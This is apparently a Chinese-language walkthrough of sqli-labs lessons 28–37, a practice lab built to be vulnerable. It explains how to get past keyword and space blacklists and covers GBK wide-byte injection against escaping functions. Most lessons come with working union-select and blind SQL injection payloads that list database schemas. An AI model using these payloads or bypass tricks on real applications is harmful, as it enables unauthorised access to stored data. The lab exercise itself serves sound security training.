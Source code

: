 ### 28
1和1"正常回显，1'报错，单引号字符型。
2'&&'1'='1回显为id=1，有小括号。因为当你有小括号的时候
`$sql="SELECT * FROM users WHERE id=('$id') LIMIT 0,1";`变成
`$sql="SELECT * FROM users WHERE id=('2'&&'1'='1') LIMIT 0,1";`
所以会变成id=1
看了下代码
```php
$id = blacklist($id);
$hint = $id;
function blacklist($id)
{
    $id= preg_replace('/[\/\*]/',"",$id);               //strip out /*
    $id= preg_replace('/[--]/',"",$id);                 //Strip out --.
    $id= preg_replace('/[#]/',"",$id);                  //Strip out #.
    $id= preg_replace('/[ +]/',"",$id);                 //Strip out spaces.
    $id= preg_replace('/[ +]/',"",$id);                 //Strip out spaces.
    $id= preg_replace('/union\s+select/i',"",$id);      //Strip out UNION & SELECT.
    return $id;
}
```
过滤了相连的union和select，这个可以复写绕过，或者使用其他代替空格,如下都可能可以代替空格
```
%0a
%0d
%20
%0b
%a0
/%0a/
```
这题可以用%0a，使用%00截断
可以盲注
```
0')||left(database(),1)>'s';%00
```
也可以绕过union select直接注入
```
333')union%a0select(1),(database()),(3)||('1
```
![](image/71.png)
解释：
```
$sql="SELECT * FROM users WHERE id=('$id') LIMIT 0,1";
$sql="SELECT * FROM users WHERE id=('333')union%a0select(1),(database()),(3)||('1') LIMIT 0,1";
```
前面的333可以尽量大一些，不能用-1。
### 28-a
感觉就像看错了题？28-a居然是在 Less 28 的基础上还注释掉了很多过滤。这样28的payload肯定可以直接打
给出一个强一点的过滤
```php
$id = blacklist($id);
$hint = $id;
function blacklist($id)
{
    $id = preg_replace('/or/i',"",$id);
    $id = preg_replace('/and/i',"",$id);
    $id = preg_replace('/[\/\*]/',"",$id);
    $id = preg_replace('/[--]/',"",$id);
    $id = preg_replace('/[#]/',"",$id);
    $id = preg_replace('/[\/\\\\]/',"",$id);
    $id = preg_replace('/[ +]/',"",$id);
    $id = preg_replace('/[\s]/',"",$id);
    $id = preg_replace('/select/i',"",$id);
    $id = preg_replace('/union/i',"",$id);
    $id = preg_replace('/union\s+select/i',"",$id);
    return $id;
}
```
末尾\i就会导致不区分大小写，统统过滤
### 29
比较智障了吧，好像过滤什么，直接注入
```
0%27union/**/select/**/1,group_concat(schema_name),1/**/from/**/information_schema.schemata%23
```
### 30
同上，只是单引号变双引号
```
0"union/**/select/**/1,group_concat(schema_name),1/**/from/**/information_schema.schemata%23
```
### 31
同上，只是双引号加了括号
```
0")union/**/select/**/1,group_concat(schema_name),1/**/from/**/information_schema.schemata%23
```

### 宽字节注入
国内最常使用的 GBK 编码，这种方式主要是绕过 addslashes 等对特殊字符进行转移的绕过。mysql在使用GBK编码的时候，会认为两个字符为一个汉字，例如%df%5c就是一个汉字。反斜杠 \ 的十六进制为 %5c，在你输入 %bf%27 时，函数遇到单引号自动转移加入 \，此时变为 %bf%5c%27，%bf%5c 在 GBK 中变为一个宽字符「縗」。%bf 那个位置可以是 %81-%fe 中间的任何字符。不止在 SQL 注入中，宽字符注入在很多地方都可以应用。
先了解addslashes() 函数，就是转义函数
```php
<?php
$str = addslashes('Shanghai is the "biggest" city in China.');
echo($str);
?>
```
输出
```
Shanghai is the \"biggest\" city in China.
```
内部实现就是
```php
$string = preg_replace('/'. preg_quote('\\') .'/', "\\\\\\", $string);          //escape any backslash
$string = preg_replace('/\'/i', '\\\'', $string);                               //escape single quote with a backslash
$string = preg_replace('/\"/', "\\\"", $string);                                //escape double quote with a backslash
```
所以我们输入
```
http://127.0.0.1/Less-32/?id=1%df'
```
根据以上分析，发生如下转换：(%5c是`\`的十六进制)
```
%df%27====>(check_addslashes)====>%df%5c%27====>(GBK)====>運'
```
```
$sql="SELECT * FROM users WHERE id='1運'' LIMIT 0,1"; #成功将单引号闭合，可以进行SQL注入。
```
[参考1：https://www.cnblogs.com/fengshui/p/9266830.html](https://www.cnblogs.com/fengshui/p/9266830.html)
[参考2：https://www.leavesongs.com/PENETRATION/mutibyte-sql-inject.html](https://www.leavesongs.com/PENETRATION/mutibyte-sql-inject.html)

### 32
![](image/72.png)
输入`?id=1%df%27`页面会报错说明单引符号起作用了。c
`?id=-1%df%27%20union%20select%201,2,3%20%23`,有回显所以可以款字节注入
```
?id=0%df%27 union select 1,group_concat(schema_name),2 from information_schema.schemata;%23
```
### 33
和上同，只是把自定义的转义函数改成内置的转义函数
```
?id=0%df%27 union select 1,group_concat(schema_name),2 from information_schema.schemata;%23
```
### 34
把get改成post了，注意不能直接在界面上输入，因为%什么的都会会浏览器转义，所以burp直接修改
![](image/73.png)
```
admin%df'or 0 union select 1,group_concat(schema_name) from information_schema.schemata%23&passwd=&submit=Submit
```
### 35
直接注入？回到第一关了233
```
0 union selEct 1,group_concat(schema_name),2 from information_schema.schemata;%23
```
### 36
使用了mysql_real_escape_string函数过滤
查看文档,下列字符受影响：
```
\x00
\n
\r
\
'
"
\x1a
```
还是宽字节注入
```
0%df%27%20union%20selEct%201,group_concat(schema_name),2%20from%20information_schema.schemata;%23
-1%EF%BF%BD%27union%20select%201,user(),3--+
```
### 37
改成post
```
uname=0%df%27%20union%20selEct%20group_concat(schema_name),2%20from%20information_schema.schemata;%23&passwd=1&submit=Submit
```
[下一篇-38-题详解](README8.md)
更多介绍？
[https://kit4y.github.io/tags/Sql-Injection/](https://kit4y.github.io/tags/Sql-Injection/)
